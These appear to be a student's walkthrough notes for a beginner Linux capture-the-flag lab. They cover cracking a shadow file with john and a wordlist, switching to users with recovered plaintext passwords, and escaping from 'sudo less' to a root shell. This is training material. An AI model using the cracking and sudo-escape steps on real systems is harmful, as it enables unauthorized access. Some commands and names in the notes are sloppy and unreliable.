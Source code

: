 CTF
Goal: find some flags on the linux machine 
ssh 

First flag
=
Finding this flag is imperative to moving on quickly, as it contains the passwords from users before they were hacked. Luckily, it doesn't have a great hiding spot.

ls 
cd Desktop
ls -la 
cat .flag 

You found flag_1:$1$WYmnR327$5C1yY4f1BxB1cLjkc92Tq.

second flag 
= 
A famous hacker had created a user on the system a year ago. Find this user, crack his password, and login to his account.

cd Desktop
john --wordlist=.pass_list.txt ../Documents/my-files/shadow

Miknick password = trustno1 
su miknick
You found flag_2:$1$PEDICYq8$6/U/a5Ykxw1OP0.eSrMZO0


.pass_list.txt (in desktop)
shadow (In documents and my-files)

student letmein
mitnick trustno1


Third flag 
= 
Find a ‘log’ file and a zip file related to the hacker's name.
- Use a compound command to figure out the unique count of IP Addresses in this log file. That number is a password.
    
    - **Hint:** Use the `unzip` command to open any zip files you may find.
- Note: To unzip the zip file, use the `unzip` command.

Documents
zip files - .secret.zip 
- needs a password 
- Password = the number of unique counts of Ip Address
	- wc -l (each length)
	- sort - u (sort unqiue)

mitnick.log 
- Location: /var/log/
- mitnick.log

cat /var/log/mitnick.log | sort -u | wc -l
- found 102 

unziping files created a text files named babbage
cat babbage 
- freedom (assuming it is password for user babbage)
su babbage
- freedom 

You found flag_3:$1$Y9tp8XTi$m6pAR1bQ36oAh.At4G5s3.

Fourth flag
= 
Find a directory with a list of hackers. Look for a file that has `read` permissions for the owner, `no` permissions for groups and `executable` only for everyone else.

Documents shows multiple users 
- not hidden files

all other files does not have any hiddne files 

ls -l | grep "^ \ -r  \ - \ - \ - \ - \ - \ - \ -x"
note there is a slash between - 
- gates
	- cat gates (not a directory)
		- nothing
- gosling (not a directory)
	- cat gosling
		- nothing
- stallman (not a directory)
	- cat stallman
		- text saying computers
- woz (not a directory)
	- cat woz
		- has a text called woz 

su woz 
- Woz does not exist

su stallman
- has a password
	- computer 

You found flag_4:$1$lGQ7QprJ$m4eE.b8jhvsp8CNbuIF5U0


Fifth flag
= 
This user is writing a bash script, except it isn't quite working yet. Find it, debug it, and run it.
Documents 
- Has a flag5.sh script
	- chmod +x flag5.sh
	- ./flag5.sh
		- line 4 error - near unexpected token 'do'
		- line 4: '      do'
	- nano flag5.sh
		- there is a extra do in 3 and 4 line 
			- line 3: for i in ${0}; do 
			- line 4: do 
		- erase line 3 do 
	- chmod +x flag5.sh
	- ./flag5.sh
		- error line 14 'else'
		- line 14: '     else'
	- nano flag5.sh
		 if [ ${#file} -gt $width ]
	        echo "$file" | fmt | sed -e '$s/^/  /' -e '2,$s/^/+ /'
	        else
		-NOTE: Missing a then statement after if 
	- chmod +x flag5.sh
	- ./flag.sh
Result --------------- sysadmin : passw0rd ----------------
You found flag_5:$1$zuzYyKCN$secHwYBXIELGqOv8rWzG00


sixth flag
= 
Inspect this user's custom aliases and run the suspicious one for the proper flag.

all files in sysadmin is empty 

To check for aliases 
- $nano .bashrc

Under note: Alias definitions.
alias flag="echo You found 'flag_6:\$1\$Qbq.XLLp\$oj.BXuxR2q99bJwNEFhSH1'"
Notes in nano bash.rc : 
- You may want to put all your additions into a separate file like
- ~/.bash_aliases, instead of adding them here directly.
- See /usr/share/doc/bash-doc/examples in the bash-doc package.
if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases

$flag
You found flag_6:$1$Qbq.XLLp$oj.BXuxR2q99bJwNEFhSH1

sysadmin may run the following cmd
	all:all all
	all:all /usr/bin/less

sudo less .bashrc 

!/bin/bash
- this will stwitch you to root 
You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

